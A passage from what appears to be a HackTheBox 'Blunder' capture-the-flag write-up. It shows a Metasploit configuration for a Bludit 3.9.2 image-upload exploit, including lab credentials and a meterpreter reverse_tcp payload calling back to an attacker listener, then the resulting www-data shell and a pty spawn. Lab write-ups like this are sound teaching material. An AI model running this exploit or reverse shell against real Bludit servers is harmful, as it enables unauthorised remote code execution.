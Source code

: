 As stated before, this version of Bludit is vulnerable to a `Directory Traversal Image File Upload Vulnerability`, for which there is a Metasploit module available!

{{< highlight html >}}
msf5 exploit(linux/http/bludit_upload_images_exec) > show options

Module options (exploit/linux/http/bludit_upload_images_exec):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   BLUDITPASS  RolandDeschain   yes       The password for Bludit
   BLUDITUSER  fergus           yes       The username for Bludit
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      10.10.10.191     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI   /                yes       The base path for Bludit
   VHOST                        no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.4       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Bludit v3.9.2
{{< /highlight >}}

After running the exploit, I'm able to get a shell as the `www-data` user!

{{< highlight html >}}
meterpreter > getuid
Server username: www-data (33)
{{< /highlight >}}

# Privilege Escalation

Let's spawn a python shell:

{{< highlight html >}}
meterpreter > shell
Process 3656 created.
Channel 0 created.
python -c 'import pty;pty.spawn("/bin/bash");'
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$
{{< /highlight >}}

Visiting the home page under `/home` I can see that there are home folders for two users, `hugo` and `shaun`.
